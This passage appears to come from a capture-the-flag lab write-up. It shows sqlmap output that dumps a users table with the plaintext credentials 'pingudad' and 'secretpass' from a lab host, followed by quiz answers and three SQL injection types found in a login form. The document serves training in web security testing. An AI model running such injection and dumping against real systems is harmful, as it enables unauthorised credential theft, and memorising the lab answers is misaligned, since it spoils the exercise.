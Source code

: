 ~~~
do you want to exploit this SQL injection? [Y/n] 
[15:33:19] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[15:33:20] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[15:33:20] [INFO] fetching current database
[15:33:20] [INFO] retrieved: 'users'
[15:33:20] [INFO] fetching tables for database: 'users'
[15:33:20] [INFO] retrieved: 'users'
[15:33:20] [INFO] fetching columns for table 'users' in database 'users'
[15:33:20] [INFO] retrieved: 'username'
[15:33:20] [INFO] retrieved: 'varchar(100)'
[15:33:20] [INFO] retrieved: 'password'
[15:33:20] [INFO] retrieved: 'varchar(100)'
[15:33:21] [INFO] fetching entries for table 'users' in database 'users'
[15:33:21] [INFO] retrieved: 'secretpass'
[15:33:21] [INFO] retrieved: 'pingudad'
Database: users
Table: users
[1 entry]
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+

[15:33:21] [INFO] table 'users.users' dumped to CSV file '/home/unknown/.local/share/sqlmap/output/10.10.166.91/dump/users/users.csv'
[15:33:21] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/unknown/.local/share/sqlmap/output/results-05132020_0331pm.csv'

[*] ending @ 15:33:21 /2020-05-13/
~~~

sqlmap was able to do everything for us and dumped the users table automatically, revealing 1 username and password.

Answer: `pingudad`


### #4.2 - What is the admin password?

Revealed by `sqlmap` (see above).

Answer: `secretpass`


### #4.3 - How many forms of SQLI is the form vulnerable to?

Below is an extract of the above sqlmap output. It shows the 3 possible injections.

~~~
...
[15:31:45] [INFO] POST parameter 'username' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --not-string="Got")
...
[15:31:45] [INFO] POST parameter 'username' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
...
[15:31:56] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
...
~~~
